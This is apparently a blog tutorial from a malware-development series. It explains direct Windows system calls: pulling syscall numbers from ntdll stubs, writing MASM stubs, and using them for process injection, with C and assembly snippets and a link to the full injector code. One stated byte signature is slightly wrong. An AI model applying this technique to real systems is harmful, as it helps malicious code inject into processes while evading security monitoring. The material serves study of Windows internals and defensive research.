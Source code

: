 ```yaml
---
description: Finally I talk about sys calls :)
---
```


# Direct System Call

## Introduction

Understanding this flow is crucial when dealing with system calls, as they serve as the gateway between user-mode applications and the underlying Windows kernel. As you know, the workings of Windows API functions follow a layered approach, where calls to functions like `OpenProcess` in `kernel32.dll` are redirected to `kernelbase.dll`, which then invokes the corresponding NTAPI function—such as `NtOpenProcess` in `ntdll.dll` which leads to a system call (`syscall`), transitioning execution into kernel mode where the actual operation is performed.

So why bother with the stupid high level stuff , when we can directly do a syscall is what some _gato_ thought.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p><em>What if I just syscall directly ?</em></p></figcaption></figure>

### Theory

Okay so I have given a brief in [this post](https://reze.gitbook.io/bin/winternal/system-calls), but to just give a gist of it, each system call is basically just a number called SSN (system service number) which is what the NTAPI passes to kernel mode where a table SSDT is used to look up for the correct function (SSR) for that SSN and it gets called to then the result being sent back to user mode. We don't need to dive deep into this for now. We can see a pattern in most of the NTAPI functions which would look similar to this

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```nasm
mov r10, rcx
mov eax, [ssn]
test byte ptr ds:[addr], 1
jne there ----+
syscall       |
ret           |
int 2E  <-----+
ret
```

So the first thing it does is to save the value in `rcx` register to `r10`. This is required because, in x64 syscall convention, `rcx` is not preserved across the `syscall` instruction, so Windows stores it in `r10` for safe access. Then it moves the **SSN** to eax and does a test on a kernel variable, this is done in order to check if the system is x64 / x86 and based on that, the particular syscall is done (Older systems used `int 0x2E` for syscall) and the execution is passed to kernel mode.

### Direct System Calls

Okay so as we know that to invoke a syscall, an SSN is really important, so we would have to get the SSN for the NT functions we want to use. This can easily be done by getting the address of that NT function inside NTDLL. Since we know that every function starts with the `4C 8D B1 B8` hex, we can use this to our advantage and get the **SSN** for our function.  After which is just the same thing , setting up arguments & invoking the syscall.&#x20;

<pre class="language-c"><code class="lang-c">DWORD get_sysn(HMODULE ntHandle, LPCSTR fnName) {

    DWORD               ssn = 0;
    UINT_PTR    NtfnAddress = NULL;

    NtfnAddress = GetProcAddress(ntHandle, fnName);
    if ((PVOID)NtfnAddress == NULL) {
        warn("Resource Locator Failed with  @-->0x%d", GetLastError());
        return 0;
    }

    ssn = (DWORD)((PBYTE)(NtfnAddress + 0x4))[0];
    return ssn;
}

<strong>DWORD    dwNtOpenProcess = get_sysn(ntdllModule, "NtOpenProcess");
</strong>DWORD    dwNtAllocateVirtualMemory = get_sysn(ntdllModule, "NtAllocateVirtualMemory");
....
</code></pre>

Since we know what the first 4 bytes would be , we can directly skip through them and get the first byte after it (look at the pic ) which would be our SSN for the particular function. Also since the compiler doesn't know about these functions, we would have to tell it to look for it externally and write an assembly code with the same thing. I have created a [helper.h](https://github.com/ZzN1NJ4/Malware-Development/blob/main/isystemcalls/helper.h) and included every thing in it, like the structures / function prototypes etc, which are required.

{% code title="helper.h" %}
```c
extern NTSTATUS NtOpenProcess(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId OPTIONAL
);
```
{% endcode %}

Then we also have to create an assembly file and link it with our project so that the compiler knows where to look for those functions.&#x20;

{% code title="sys.asm" %}
```nasm
.data
EXTERN dwNtOpenProcess:DWORD;
EXTERN dwNtAllocateVirtualMemory:DWORD;

.code
NtOpenProcess PROC
                mov r10, rcx
                mov eax, dwNtOpenProcess
                syscall
                ret
NtOpenProcess ENDP

NtAllocateVirtualMemory PROC
                mov r10, rcx
                mov eax, dwNtAllocateVirtualMemory
                syscall
                ret
NtAllocateVirtualMemory ENDP
....
END
```
{% endcode %}

after we have written our asm file, we would have to link it with our project , to do that right click on the project in solution explorer and add a build dependency -> masm. Then just make sure that the file sys.asm is being included in the build and is also of type "Microsoft Macro Assembler" (right click on file name -> properties)

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Alright, now we have setup the assembly to run, all that's left is just the same NTAPI process injection. I dont want to fill this blog with a long code of me doing the same thing again so if you want to see it, you can check out the code in [my github](https://github.com/ZzN1NJ4/Malware-Development/blob/main/isystemcalls/main.c). Here's a snippet (as you can see this is very similar to the NTAPI implementation)

```c
STATUS = NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &OA, &CID);
if (STATUS != STATUS_SUCCESS) {
    warn("NtOpenProcess failed with  @-->%d || STATUS @--0x%x", GetLastError(), STATUS);
    goto deadend;
}
....
STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, rBuffer, NULL, FALSE, 0, 0, 0, NULL);
....
STATUS = NtWaitForSingleObject(hThread, FALSE, NULL);

```

### Explanation

What happens here is that we first get the **SSN** of the functions and save it to respective variables. Then we use those same variable in the assembly file and once again use the `extern` keyword in the assembly so that the compiler knows to look for it in an external source (which is our C file).&#x20;

When we call the `NtOpenProcess` function, the compiler starts looking for it outside since we have defined it with the `extern` keyword and finds it in the assembly file and then invokes that function.

## References

* [https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls](https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls)
* [https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9](https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9)

